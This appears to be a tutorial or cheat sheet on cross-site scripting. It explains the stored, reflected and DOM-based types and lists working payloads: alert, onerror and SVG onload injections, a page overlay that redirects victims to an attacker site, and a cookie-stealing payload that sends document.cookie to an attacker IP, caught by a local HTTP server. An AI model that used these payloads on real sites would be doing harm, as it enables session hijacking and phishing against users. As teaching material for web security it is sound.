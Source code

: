 **Cross-Site Scripting** (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious code, usually in the form of scripts, into a web page or application, which is then executed by unsuspecting users who visit that page. The injected code can steal sensitive data, manipulate web content, or perform actions on behalf of the user without their consent.

There are three main types of XSS attacks:

1. **Stored XSS:** The malicious code is permanently stored on a server and is served to multiple users when they access a specific page or resource. This type of XSS can have a long-lasting impact as it affects all subsequent visitors to the compromised page.

2. **Reflected XSS:** In this case, the injected code is reflected off a web server and immediately executed in response to a user's request. Typically, the attacker tricks the user into clicking on a malicious link containing the payload.

3. **DOM-based XSS:** This type of XSS occurs when the client-side script in a web page manipulates the Document Object Model (DOM) without proper sanitization or validation, allowing an attacker to execute malicious code on the client-side.
## Basic script
A basic example of an XSS payload is a simple JavaScript alert box. This payload triggers a pop-up alert when injected into a vulnerable site:
```javascript
<script>alert("hi")</script>
```

## Image-based XSS
With this type of script we are trying to upload an image, but providing a wrong source. We generate this error on purpose to execute the *onerror* javascript function that prints hi in a pop-upp suing alert.
```javascript
<img src='x' onerror=alert("hi") />
```

Also, we can use the onclick javascript's function. If we upload an image with a valid source when we click the image it will spawn the pop-up with the alert message.
```javascript
<img src="<valid url>" onclick=alert("hi") />
```

#### Payload example

An example of a payload that an attacker might use is one crafted with an <img> tag and an `onerror` attribute. This payload creates a button that notifies the user of a simulated "error" on the website. The malicious script effectively prevents the user from interacting with any other elements on the page, forcing them to click the button. Upon clicking, the user is redirected to a malicious website controlled by the attacker.  

```javascript
<img src="x" onerror="(function(){var m=document.createElement('div');m.style='position:fixed;top:0;left:0;width:100%;height:100%;background-color:rgba(0,0,0,0.5);display:flex;justify-content:center;align-items:center;';var a=document.createElement('div');a.style='background-color:white;padding:20px;border-radius:5px;text-align:center;';var msg=document.createElement('p');msg.textContent='Error occurred!';var b=document.createElement('button');b.textContent='Go to [example.com](http://example.com)';b.onclick=function(){window.location.href='[http://example.com](http://example.com)';};a.appendChild(msg);a.appendChild(b);m.appendChild(a);document.body.appendChild(m);})();" />
```

## Obtaining Cookies
One of the most common attack vectors is to steal the victim's session cookie. This can be done by injecting a payload that sends the victim's cookies to an attacker-controlled server.
```javascript
<img src=x onerror=fetch("own_ip:port/"+document.cookie);>
```
With this petition we induce the victim server to execute JS code. With this code the server tries to execute  a wrong image and on the error sends it's cookie to our machine. Before executing this payload is necessary to open a local port.
```bash
python3 -m http.server 80
```

## SVG script
When this code is injected into a web page, the SVG image will be loaded, and as soon as it's loaded, the `onload` event will fire, executing the JavaScript code and displaying the "1" in a pop-up alert box. It uses an SVG (Scalable Vector Graphics) element to trigger the JavaScript alert.

```javascript
<svg onload=alert(1)>
```

- Example:
If we are attacking a web where whatever you insert will be assigned to the variable query, this option of XSS could be useful.
```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

QUERY="><svg onload=alert(1)>
```

## DOM XSS using an anchor in jQuery
```javascript
javascript:alert(document.cookie)
```
The code executes on the client side, within the user's browser. It doesn't rely on the server processing user input or delivering malicious content in the server response. Instead, it relies on manipulating the Document Object Model (DOM) of the current web page.

If an attacker can inject this code into a web page by manipulating user-generated content (e.g., through input fields or URLs), the injected code will execute within the user's browser. For example, an attacker might craft a URL like `https://example.com/?input=javascript:alert(document.cookie)` and trick a user into clicking it.

